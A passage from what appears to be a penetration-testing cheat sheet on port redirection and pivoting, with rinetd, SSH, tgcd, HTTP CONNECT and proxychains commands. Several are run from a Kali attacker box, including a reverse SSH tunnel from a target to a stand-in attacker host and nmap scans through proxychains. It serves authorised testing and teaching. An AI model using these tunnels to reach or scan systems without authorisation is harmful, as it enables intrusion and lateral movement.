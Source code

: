 ##### Port Redirection

> ###### rinetd

```
rinetd

vi /etc/rinetd.conf
# bind        # port        # connect        # port
a.b.c.d     53             e.f.g.h         80
```

##### SSH

> ###### Generate key

```
Kali> ssh-keygen -t rsa
```

> ###### SSH with Key

```
Kali> ssh -i key_file user@host
```

> ###### SSH Tunneling

```
# Local Tunnel
Kali> ssh $ATTACKER -L 3000:$TARGET:2222

# Remote Tunnel
Kali> ssh $TARGET -R 2222:localhost:3000

# Dynamic Tunnel to $TARGET
Kali> ssh -D 127.0.0.1:3000 -N username@$TARGET
```

> ###### tgcd tunneling

```
Kali> tgcd -L -p 9999 -q 40000
Kali> tgcd -C -s IP:9999 -c ATTACKER:40000
Kali> iptables -t nat -A OUTPUT -d IP -j DNAT --to-destination 127.0.0.1
```

##### HTTP Tunneling

```
Kali> nc -vvn $TARGET 8888
CONNECT $TARGET2:80 HTTP/1.0
```

##### Proxychains

```
# create reverse ssh tunnel on our target
Kali> ssh -f -N -R 2222:127.0.0.1:22 root@$ATTACKER

# create on our attacking machine
Kali> ssh -f -N -D 127.0.0.1:8080 -p 2222

# Good to go
Kali> proxychains nmap -sV $TARGET
```
